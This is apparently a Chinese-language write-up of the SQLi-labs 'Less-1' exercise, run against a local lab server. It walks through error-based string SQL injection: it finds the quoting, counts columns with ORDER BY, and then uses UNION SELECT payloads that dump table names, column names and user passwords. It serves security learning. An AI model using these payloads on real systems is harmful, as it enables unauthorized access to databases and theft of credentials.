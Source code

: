 # Less-1

## 0x00 注入

http://192.168.0.105/vulnlab/sqli/Less-1/index.php?id=1

添加一个单引号。

?id=1'

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

可以看出，参数id在sql语句中被单引号包括。

?id=1' order by 4--+

Unknown column '4' in 'order clause'

?id=1' order by 3--+

正常

使用order by猜测字段数，--+用来注释掉单引号和其他字符。

显然，这里的字段数有3个。

?id=-1' union select 1,2,3--+

![image-20210112164946461](D:\笔记\image\image-20210112164946461.png)

可以看到，显位只有2，3。

?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

![image-20210112165228215](D:\笔记\image\image-20210112165228215.png)

information_schema 是一个数据库，用来存储数据库信息。

group_concat()函数可以将所有数据打印出来。

不用group_concat()就只能看到一个。

?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'--+

![image-20210112165512418](D:\笔记\image\image-20210112165512418.png)

?id=-1' union select 1, group_concat(username), group_concat(password) from users--+

![image-20210112165611724](D:\笔记\image\image-20210112165611724.png)



## 0x01 分析

报错型注入，参数类型是字符串。